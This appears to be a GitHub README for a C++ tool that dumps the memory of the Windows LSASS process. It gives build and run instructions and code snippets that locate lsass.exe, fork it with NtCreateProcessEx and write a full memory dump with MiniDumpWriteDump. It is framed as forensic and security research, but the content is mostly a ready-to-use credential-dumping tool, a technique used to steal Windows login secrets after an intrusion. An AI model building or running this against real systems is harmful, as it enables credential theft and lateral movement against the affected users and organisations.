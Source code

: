 
# LSASS Process Dumper

This project demonstrates how to create a fork of the LSASS process and dump its memory using the Windows API. This can be useful for forensic analysis and security research.

## Features

- Locates the LSASS process by name.
- Uses `NtCreateProcessEx` to create a fork of the LSASS process.
- Dumps the memory of the forked process to a file using `MiniDumpWriteDump`.

## Prerequisites

- Windows operating system
- Visual Studio or any other C++ compiler
- Administrator privileges

## Libraries and Dependencies

- `windows.h`
- `DbgHelp.h`
- `TlHelp32.h`
- `winternl.h`
- `tchar.h`
- Link with `Dbghelp.lib` and `ntdll.lib`

## How to Build

1. Clone the repository.
2. Open the project in Visual Studio or your preferred C++ development environment.
3. Ensure that you have linked `Dbghelp.lib` and `ntdll.lib` in your project settings.
4. Build the project.

## How to Run

1. Ensure you are running with administrator privileges.
2. Execute the compiled binary.
3. The program will create a memory dump of the forked LSASS process and save it as `lsass_forked.dmp`.

## Code Explanation

### Finding LSASS PID

The program takes a snapshot of all running processes and iterates through them to find the process with the name `lsass.exe`.

```cpp
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 processEntry = {};
processEntry.dwSize = sizeof(PROCESSENTRY32);

if (Process32First(snapshot, &processEntry)) {
    do {
        if (_wcsicmp(processEntry.szExeFile, L"lsass.exe") == 0) {
            lsassPID = processEntry.th32ProcessID;
            break;
        }
    } while (Process32Next(snapshot, &processEntry));
}
```

### Creating Forked Process

The program uses `NtCreateProcessEx` to create a new process that is a fork of the LSASS process.

```cpp
pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(hNtdll, "NtCreateProcessEx");
NTSTATUS status = NtCreateProcessEx(&forkedProcess, PROCESS_ALL_ACCESS, NULL, lsassHandle, 0, NULL, NULL, NULL);
```

### Dumping the Forked Process

The program uses `MiniDumpWriteDump` to create a dump of the forked process.

```cpp
DWORD forkedProcessPID = GetProcessId(forkedProcess);
BOOL isDumped = MiniDumpWriteDump(forkedProcess, forkedProcessPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
```

## License

This project is licensed under the MIT License.

